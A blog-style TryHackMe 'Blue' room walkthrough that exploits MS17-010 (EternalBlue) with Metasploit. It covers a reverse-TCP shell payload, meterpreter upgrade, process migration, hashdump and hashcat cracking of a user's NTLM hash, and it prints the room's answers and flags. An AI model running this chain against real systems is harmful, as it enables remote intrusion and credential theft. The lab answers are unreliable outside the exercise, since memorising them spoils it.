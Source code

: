 +++
date = '2025-09-10T15:26:12+07:00'
title = 'TryHackMe - Blue Room Walkthrough'
tags = ['TryHackMe']
description = "Deploy & hack into a Windows machine, leveraging common misconfigurations issues."
draft = false

[cover]
  image = '/images/posts/tryhackme-blue.png'
  alt = 'TryHackMe Blue Room'
  caption = 'TryHackMe Blue Room'
  relative = false
+++

This is my TryHackMe walkthrough, created to document my learning journey and share solutions with the community. The writeups include a mix of hints, step-by-step explanations, and final answers to help players who get stuck, while still encouraging independent problem-solving.

> Blue Room - Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

## Overview

-   **Room URL:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)
-   **Difficulty:** Easy
-   **Time to complete:** 30

## Walkthrough

### 1. Recon

-   <p>How many ports are open with a port number under 1000?</p>

```bash
nmap <MACHINE_IP> -p 0-1000
```

**=> Answer: `3`**

-   <p>What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)</p>

**=> Answer: `ms17-010`**

### 2. Gain Access

-   <p>Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)</p>

```bash
msfconsole
search ms17_010
```

**=> Answer: `exploit/windows/smb/ms17_010_eternalblue`**

-   <p>Show options and set the one required value. What is the name of this value? (All caps for submission)</p>

```bash
use ms17_010_eternalblue
show options
```

**=> Answer: `RHOSTS`**

-   Gain access to the target VM:

```bash
set payload windows/x64/shell/reverse_tcp
set RHOSTS <target VM IP>
run
```

-   Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

```bash
Ctrl + Z
use post/multi/manage/shell_to_meterpreter
sessions -l
set SESSION 2
run
```

### 3. Escalate

-   <p>If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) </p>

**=> Answer: `post/multi/manage/shell_to_meterpreter`**

-   <p>Select this (use MODULE_PATH). Show options, what option are we required to change?</p>

**=> Answer: `SESSION`**

-   <p>Set the required option, you may need to list all of the sessions to find your target here. </p>

```bash
SET SESSION 2
```

-   <p>Run! If this doesn't work, try completing the exploit from the previous task once more.</p>

```bash
run
```

-   <p>Once the meterpreter shell conversion completes, select that session for use.</p>

```
sessions -i <meterpreter session>
```

-   <p>Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. </p>

-   <p>List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).</p>

-   <p>Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. </p>

```bash
# Take several attempts try multiple processes
migrate <process id>
```

### 4. Cracking

-   <p>Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? </p>

```bash
hashdump
```

**=> Answer: `Jon`**

-   <p>Copy this password hash to a file and research how to crack it. What is the cracked password?</p>

```bash
echo 'YOUR HASH VALUE' > hash.txt
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

# If you just have rockyou.txt.gz, decompress it.
gzip -d /usr/share/wordlists/rockyou.txt.gz
# Run hashcat again
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**=> Answer: `alqfna22`**

### 5. Find flags!

```
Ctrl + Z
Get back to the original shell for better performance
sessions -i <original session id>
```

-   Flag1? <i>This flag can be found at the system root. </i>

```powershell
cd ..
cd ..
dir
type flag1.txt
```

**=> Answer: `flag{access_the_machine}`**

-   <p>Flag2? <i>This flag can be found at the location where passwords are stored within Windows.</i></p><p><br /></p><p>*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. </p>

```powershell
cd Windows/System32/Config
dir
type flag2.txt
```

**=> Answer: `flag{sam_database_elevated_access}`**

-   <p>flag3? <i>This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </i></p>

```powershell
cd /Users/Jon/Documents
type flag3.txt
```

**=> Answer: `flag{admin_documents_can_be_valuable}`**
